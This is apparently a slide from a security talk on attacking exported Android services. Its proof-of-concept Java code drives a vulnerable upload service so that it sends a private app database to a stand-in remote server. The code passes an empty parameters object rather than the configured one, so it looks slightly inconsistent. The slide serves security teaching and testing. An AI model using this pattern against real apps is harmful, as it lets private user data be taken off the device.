

# Exploitation of Android Services
Custom file upload service example that is vulnerable because android:exported="true". When exported by third party applications can send data to the service or steal sensitive data from applications depending on the services function. Check if params and intent data can be set with proof of concept application.
        UploadTaskParameters params = new UploadTaskParameters();
        params.setId("1");
        params.setServerUrl("https://your-server-receives-app-data.com");
        try {
            params.addFile(new UploadFile("/data/data/com.example/database/ohno.db"));

        }
        catch(FileNotFoundException e) {
            throw new IllegalStateException(e); //Here to satisfy try catch requirement
        }

        Intent intent = new Intent("com.example.action.upload");
        intent.setClassName("com.example", "com.example.UploadService");
        intent.putExtra("httpTaskParameters", new HttpUploadTaskParameters());
        startService(intent);